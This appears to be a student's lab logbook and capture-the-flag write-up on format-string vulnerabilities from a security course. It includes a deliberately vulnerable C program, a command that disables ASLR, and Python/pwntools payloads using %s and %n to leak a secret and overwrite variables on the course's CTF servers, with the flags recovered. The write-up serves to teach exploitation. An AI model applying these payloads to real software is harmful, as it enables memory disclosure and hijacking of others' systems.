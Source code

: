 # Format sting

### Preparation
* Shutting down countermeasures
we'll turn off the address randomization in order to make it easier to guess the heap and stack address.
```
$ sudo sysctl -w kernel.randomize_va_space=0
```

### Vulnerable file

```C
unsigned int target = 0x11223344;
char *secret = "A secret message\n";
void myprintf(char *msg) {
    // This line has a format-string vulnerability
    printf(msg);
}
int main(int argc, char **argv) {
    char buf[1500];
    int length = fread(buf, sizeof(char), 1500, stdin);
    printf("Input size: %d\n", length);
    myprintf(buf);
    return 1;
}
```
This file is clearly unsafe since the input from the user read in int main() is passed to a function which then calls printf, without having been checked.

### Environment Setup
* To simplify the attack, we'll turn off user address space randomization **to a function which then calls printf**.
* Our program will be compiled into both 64-bit and 32-bit (-m32 option).
* The program will also need to be compiled with the **-z execstack** option, in order, to make the stack executable.


## Task 1

Firstly we send a benign message to the server running in the docker container on 10.9.0.5
with the command:
```
$ echo hello | nc 10.9.0.5 9090
```
result:
![Alt text](images/logbook7/task1-benign.png)

We then were asked to crash the program which we achieved using the following input:

```
AAAA%n
```
This writes 4 to the address 0x41414141 which isn't a valid memory address, whcich ends up crashing the program

![Alt text](images/logbook7/task1-crash.png)


## Task 2 a

We concluded we need 64 %x to get the server to start printing the beggining of the user input, we checked this by sending AAAA as the 4 first bytes in our input followed by 64 %x.

![Alt text](images/logbook7/task2-a.png)

## Task 2 b

To print the string of the secret value given its address = 0x080b4008, we need to use the %s specifier, however we need to specify the address we want the %s to read from. 
To do so, we wrote the address of the variable in little endian followed by %64$s which reads a string in the address present in the 64th position in stack (our input)

``` py
content = (0x080b4008).to_bytes(4,byteorder='little') + b"%64$s"
```

![Alt text](images/logbook7/task2-b.png)


## Task 3 a

To change the value of a variable using a format string vulnerabilities we need to use the %n which writes the number of characters written so far in the specified address. We used the same technique we used in task 2b

```py
content = (0x080e5068).to_bytes(4,byteorder='little') + b"%64$n"
```

![Alt text](images/logbook7/task3-a.png)

## Task 3 b

This task is the same as the task 3b, however we need to write 0x5000 to the address of the target variable, which means we need to write 20480 characters before calling %n. We can achieve this using %20476x which will write 20476 charcters in the user input.
These amount of characters is enough because we've already written 4 characters when we wrote the address we want to write to.

```py
content = (0x080e5068).to_bytes(4,byteorder='little') +b"%20476x" + b"%64$n"
```

![Alt text](images/logbook7/task3-b.png)





# CTF 7 Format Strings

## Desafio 1

In  the port 4004 there was a C program running, with a format string vulnerability present in the line 27:
```C
printf(buffer)```

The program had the following protections:

-> NX: Cannot execute in the Stack
-> Canarys: Cannot overflow buffers

```
checksec program
  Arch:     i386-32-little
  RELRO:    Partial RELRO
  Stack:    Canary found
  NX:       NX enabled
  PIE:      No PIE (0x8048000) ```


Apart from this we also foundout the Binary position is absolute (no PIE) and the binary is 32-bit.


The vulnerable file loads the global variable flag with the contents of flag.txt at the beggining of program. Therefore to find the flag all we need to do is print the content of flag.

First we used gdb to get the flag variable address.


![Alt text](format_strings1_ctf_gdb.png)

After getting the address 0x804c060, the exploit consists in getting the string value in that address, which can be achieved with the format specifier %s.


```py
p = remote("ctf-fsi.fe.up.pt", 4004)
p.recvuntil(b"got:")
p.sendline(p32(0x804c060) + b"%s")
p.interactive()
```

![Alt text](format_strings1_ctf_result.png)

```
flag{669369e1c6689eb5de7c38c2feef0c95}
```

## Desafio 2

For this challenge, the checkseck result is the same as the one for challenge 1, however this time the flag is not loaded into memory. Instead, if the key value is 0xBEEF a shell will be launched, which then can be used to read the contents of the flag.txt file in the same directory.

We start by using gdb to get the address of the key global variable.

![Alt text](format_strings2_ctf_gdb.png)

0x804b324

Then we need to write to this address using the %n format specifier.
This specifier writes the number of bytes written so far into the next address in the stack.
Therefore we calculated the value in decimal we need to write besides the 4 bytes we had already written in the address:
```
0xBEEF - 4 = 
 48879 - 4 = 48875
```
  
Then we just needed to put everything together in the exploit.

```py
r = remote('ctf-fsi.fe.up.pt', 4005)
r.recvuntil(b"here...")
r.sendline(p32(0x804b324) +b"%1$.48875x" + b"%n")
r.interactive()
```
![Alt text](format_strings2_ctf_result.png)

```
flag{aade366f8dc239bab6f89db1f010b512}
```



## Desafio 3

Challenge 3's source code was identical to the source code in challenge number 2. However this time the address of the key global variable was 0x804b320.

![Alt text](format_strings3_ctf_gdb.png)

This is doesn't allow to use the same approach we used in challenge 2 as \x20 is the ascii representation of the space character which messes with the address we want to write to.

Therefore, we tried to write 0xBEEF00 to the address immediately before: 0x804b31F.

However the decimal representation of 0xBEEF00 is 12513024, which would require us to write that amount of characters in the input, and consequently get a connection timeout.

In order to go around this obstacle we decided to split the writing of the variable into 2.

0x804b321 -> 0xBE = 190
0x804b31F -> 0xEF00 = 61184

This approach reduces the amount of characters we need to write drastically while getting the same output.

This led to the exploit:

```py
r = remote('ctf-fsi.fe.up.pt', 4008)
r.recvuntil(b"here...")
r.sendline(p32(0x804b321) + p32(0x804b31F) + b"%182x" + b"%1$hhn" + b"%60994x" + b"%2$hn")
r.interactive()
```

![Alt text](format_strings3_ctf_result.png)

```
flag{8e9f922b23b061c32d1b2802bd363057}
```





